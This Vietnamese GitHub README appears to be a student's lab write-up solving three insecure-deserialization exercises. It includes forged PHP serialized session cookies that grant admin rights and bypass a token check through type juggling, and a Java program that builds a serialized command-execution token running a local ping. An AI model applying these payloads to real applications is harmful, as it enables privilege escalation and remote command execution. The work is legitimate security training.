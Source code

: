 # ltat_lab2
## Bài 7:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/2447700a-d407-49d1-b9a2-9b7746d2b5ad)

- Mục tiêu của bài này là xóa được user ```carlos``` .
- Trước hết mình phải login bằng user và pass được cho trước.
- Sau một hồi scan thì mình tìm được đường dẫn ```/admin``` .

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/dd419f75-29bf-43d1-b51a-9f758e2dc25d)

- Có vẻ mình không thể vào được với người dùng bình thường.
- Check sơ qua cookie thì mình thấy một cookie có giá trị là ```session``` .
- Mình sẽ thử bật burpsuite lên để test thử.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/d502bf30-8304-40cb-86d9-9f0b932b65a2)

- Khi gửi req đến ```/admin``` server sẽ kiểm tra biến session của chúng ta, khi mình decode thử thì ra được một đối tượng là user.
- Điểm đáng chú ý ở đây là giá trị admin của session này đang là 0 ( do biến bool quyết định )
- Giờ mình chỉ cần chuyển nó về thành 1 và gửi req thì có thể bypass phần này.

  ![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/932acce0-7e60-4306-9eda-9602885769af)

- Giờ thì khi xóa user ```carlos``` chúng ta cũng sẽ làm tương tự.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/6018c782-e03a-4a65-a71e-21dd2e4ef85c)

```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d```

## Bài 8:

- Bài này lúc đầu vào cũng giống bài trước nên mình sẽ vào thẳng phần session.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/1eb9bc4f-1399-4c68-816c-81066b427d44)

```O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f4fb8seskjly3qw37onpt6ujkprn1co7";}```

- Ở đây chúng ta có vài trường mới trong class User này đó là ```username``` và ```access_token```.
- Theo mình hiểu thì ```access_token``` là một trường dùng để kiểm tra xem class có bị sửa đổi gì hay không và nếu nó sai thì sẽ không cho ta truy cập.
- Còn về phần username thì ở đây bắt buộc phải là ```administrator``` .
- Mình đọc hint thì có vẻ bài này được viết trên PHP, và mình nghỉ ngay đến một lỗi trong quá trình so sánh kiểu dữ liệu của PHP đó là php type juggling.
- Từ những dữ kiện trên, mình đã đã tạo được một class mới với giá trị như sau.

```O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}```
- Với Class này, mình đã đổi tên của user và đồng thời ép kiểu dữ liệu của access_token là int với giá trị là 0. Điều này làm cho biến access_token sẽ bị lỗi và trả về giá trị đúng.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e353703a-36f7-4295-9906-9aace41bb32e)

- Vậy là mình đã bypass qua phần admin, bây giờ chỉ cần xóa User là solve được bài này.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e1018c97-39d1-4d8e-bfd8-5ff91227087a)

```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9```

## Bài 9:

- Đây là một chall về JAVA, đề cho chúng ta một đoạn code có sẵn:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/9c63ccc9-23a1-4d64-9a7f-76473226e4b2)


- Ở đây chúng ta có một đoạn code đáng chú ý.
 
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/0f68e543-f98e-4824-a01a-3e11b7035693)


- Class VulnerableTaskHolder sẽ truyền mọi taskAction mà ta truyền vào nó, điều này có nghĩa là chúng ta có thể tận dụng điểm này để truyền một câu lệnh nào đó vào đây.
- Mình sẽ viết một đoạn code để có thể tạo một token thực hiện lệnh ```ping``` .

```java

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import org.dummy.insecure.framework.VulnerableTaskHolder;


public class Program {
    public static void main(String args[]) throws Exception{
        VulnerableTaskHolder vulnObj = new VulnerableTaskHolder("ping","ping -n 4 127.0.0.1");
		
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(vulnObj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));
    }
}
```

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/60b9c880-cbe8-4250-adb7-3744f28119d4)


-Đây là Token:
```rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfnChQWOB41NIOieHQAE3BpbmcgLW4gNCAxMjcuMC4wLjF0AARwaW5n```

![393904979_776481387524809_6695519617529434868_n](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e46f6d5b-4765-42d1-b78f-2b6d324799b1)


